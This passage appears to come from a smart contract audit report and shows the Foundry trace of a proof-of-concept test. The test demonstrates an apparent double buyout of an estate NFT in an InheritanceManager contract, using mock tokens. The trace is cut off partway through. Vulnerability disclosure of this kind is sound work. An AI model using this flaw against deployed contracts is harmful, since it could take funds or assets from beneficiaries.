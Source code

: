 POC Result : 

```Solidity
Ran 1 test for test/InheritanceManagerTest.t.sol:InheritanceManagerTest
[PASS] test_doubleNFTBuyoutAndOwnership() (gas: 449070)
Traces:
  [449070] InheritanceManagerTest::test_doubleNFTBuyoutAndOwnership()
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802]
    ├─ [0] VM::label(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], "user2")
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [69020] InheritanceManager::addBeneficiery(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Stop] 
    ├─ [23120] InheritanceManager::addBeneficiery(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802])
    │   └─ ← [Stop] 
    ├─ [145826] InheritanceManager::createEstateNFT("valuable estate", 1000000000 [1e9], ERC20Mock: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [95512] NFTFactory::createEstate("valuable estate")
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], tokenId: 1)
    │   │   ├─ emit MetadataUpdate(_tokenId: 1)
    │   │   └─ ← [Return] 1
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(7862401 [7.862e6])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Return] 
    ├─ [22686] InheritanceManager::inherit()
    │   └─ ← [Stop] 
    ├─ [46784] ERC20Mock::mint(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], 1000000000 [1e9])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], value: 1000000000 [1e9])
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Return] 
    ├─ [24735] ERC20Mock::approve(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], 1000000000 [1e9])
    │   ├─ emit Approval(owner: user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], spender: InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], value: 1000000000 [1e9])
    │   └─ ← [Return] true
    ├─ [28634] InheritanceManager::buyOutEstateNFT(1)
    │   ├─ [26058] ERC20Mock::transferFrom(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], 500000000 [5e8])
    │   │   ├─ emit Transfer(from: user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], to: InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], value: 500000000 [5e8])
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [24884] ERC20Mock::mint(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], 1000000000 [1e9])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], value: 1000000000 [1e9])
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802])
    │   └─ ← [Return] 
```